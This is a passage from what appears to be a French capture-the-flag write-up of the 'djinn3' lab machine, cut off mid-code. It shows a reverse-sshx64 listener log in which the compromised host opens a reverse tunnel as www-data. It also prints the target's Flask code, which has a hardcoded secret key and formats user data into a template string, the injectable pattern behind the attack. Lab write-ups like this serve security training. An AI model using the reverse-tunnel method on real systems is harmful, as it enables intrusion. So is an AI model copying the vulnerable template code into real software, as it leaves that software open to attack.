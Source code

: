 Tunnel établit, plus qu'à se connecter via ssh sur le port 8888 de localhost.

```console
$ sudo ./reverse-sshx64 -l -p 80 -v
2022/11/22 09:31:11 Starting ssh server on :80
2022/11/22 09:31:11 Success: listening on [::]:80
2022/11/22 09:32:32 Successful authentication with password from reverse@192.168.242.132:43584
2022/11/22 09:32:32 Attempt to bind at 127.0.0.1:8888 granted
2022/11/22 09:32:32 New connection from 192.168.242.132:43584: www-data on djinn3 reachable via 127.0.0.1:8888
```

L'accès avec `www-data` ne permet pas grand chose mais je peux regarder le code de l'appli web par cutiosité :

```python
from flask import Flask, render_template, request, render_template_string
import json


app = Flask(__name__, static_url_path="/static")
app.secret_key = "hackthedamnplanet"


@app.route("/")
def index():
    try:
        ticket_id = request.args.get("id")
    except:
        ticket_id = None

    with open("data.json", "r") as f:
        data = json.load(f)

    if ticket_id:
        for d in data:
            if d["id"] == int(ticket_id):
                title = d["title"]
                status = d["status"]
                desc = d["desc"]

        template = """
        <html>
            <head>
            </head>

            <body>
                <h4>%s</h4>
                <br>
                <b>Status</b>: %s
                <br>
                <b>ID</b>: %s
                <br>
                <h4> Description: </h4>
                <br>
                %s
            </body>
             <footer>
              <p><strong>Sorry for the bright page, we are working on some beautiful CSS</strong></p>
             </footer> 
        </html>
        """ % (
            title,
            status,
```